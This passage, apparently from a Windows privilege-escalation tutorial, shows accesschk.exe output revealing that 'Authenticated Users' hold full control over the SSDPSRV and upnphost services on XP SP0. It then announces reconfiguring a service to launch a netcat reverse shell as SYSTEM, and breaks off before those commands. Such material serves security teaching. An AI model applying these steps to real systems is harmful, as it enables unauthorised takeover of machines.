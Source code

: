 Lets compare the output on Windows 8 and on Windows XP SP0.

# This is on Windows 8.

C:\Users\b33f\tools\Sysinternals> accesschk.exe -uwcqv "Authenticated Users" *
No matching objects found.

# On a default Windows XP SP0 we can see there is a pretty big security fail.

C:\> accesschk.exe -uwcqv "Authenticated Users" *
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS
		
C:\> accesschk.exe -ucqv SSDPSRV

SSDPSRV

  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS

C:\> accesschk.exe -ucqv upnphost

upnphost

  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS


 

This issue was later resolved with the introduction of XP SP2, however on SP0&SP1 it can be used as a universal local privilege escalation vulnerability. By reconfiguring the service we can let it run any binary of our choosing with SYSTEM level privileges.

Let's have a look how this is done in practise. In this case the service will execute netcat and open a reverse shell with SYSTEM level privileges. Other options are certainly possible.

